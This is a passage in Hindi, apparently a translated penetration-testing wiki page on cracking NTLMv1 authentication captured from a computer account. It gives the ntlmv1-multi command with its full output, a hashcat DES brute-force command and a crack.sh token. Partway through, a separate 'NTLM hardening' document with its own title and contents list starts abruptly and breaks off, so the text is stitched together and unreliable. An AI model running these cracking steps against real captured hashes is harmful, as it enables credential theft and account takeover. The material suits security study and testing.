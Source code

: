 ध्यान दें कि प्रिंटर प्रमाणीकरण के दौरान कंप्यूटर खाता का उपयोग करेगा, और कंप्यूटर खाते में **लंबा और यादृच्छिक पासवर्ड** का उपयोग होता है जिसे आप **सामान्य शब्दकोश** का उपयोग करके **तोड़ने में सक्षम नहीं होंगे**। लेकिन **NTLMv1** प्रमाणीकरण **DES का उपयोग करता है** ([अधिक जानकारी यहां](./#ntlmv1-challenge)), इसलिए DES को तोड़ने के लिए कुछ विशेष सेवाओं का उपयोग करके आप इसे तोड़ सकेंगे (आप [https://crack.sh/](https://crack.sh) का उपयोग कर सकते हैं उदाहरण के लिए)।

### hashcat के साथ NTLMv1 हमला

NTLMv1 को एनटीएलएमवन मल्टी टूल [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) के साथ तोड़ा जा सकता है जो हैशकैट के साथ तोड़ा जा सकता है।

आदेश
```
python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
``` would output the below:

```
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
```
# एनटीएलएम (NTLM) हार्डनिंग

एनटीएलएम (NTLM) एक प्रमुख प्रमाणीकरण प्रोटोकॉल है जो माइक्रोसॉफ्ट विंडोज प्लेटफ़ॉर्म पर उपयोग होता है। यह प्रोटोकॉल उपयोगकर्ता को उनके पहचान को सत्यापित करने के लिए उनके पासवर्ड का उपयोग करता है।

इस दस्तावेज़ में, हम एनटीएलएम प्रोटोकॉल के बारे में अधिक जानकारी प्रदान करेंगे और विंडोज प्लेटफ़ॉर्म पर एनटीएलएम को हार्डन करने के लिए कुछ सुरक्षा उपायों को समझाएंगे।

## विषय

1. [एनटीएलएम कार्यप्रणाली](#एनटीएलएम-कार्यप्रणाली)
2. [एनटीएलएम के सुरक्षा चुनौतियाँ](#एनटीएलएम-के-सुरक्षा-चुनौतियाँ)
3. [एनटीएलएम हार्डनिंग के लिए उपाय](#एनटीएलएम-हार्डनिंग-के-लिए-उपाय)
4. [संग्रहीत पाठ](#संग्रहीत-पाठ)

## एनटीएलएम कार्यप्रणाली

एनटीएलएम प्रोटोकॉल तीन चरणों में काम करता है:

1. **विन्यास (Negotiation)**: क्लाइंट और सर्वर के बीच प्रमाणीकरण प्रक्रिया शुरू होती है और विन्यास चरण में क्लाइंट और सर्वर एन्क्रिप्शन और हैश अल्गोरिदम के लिए समझौता करते हैं।
2. **चुनौती (Challenge)**: सर्वर एक चुनौती बनाता है और क्लाइंट को उसे हल करने के लिए अपने पासवर्ड का उपयोग करना होता है।
```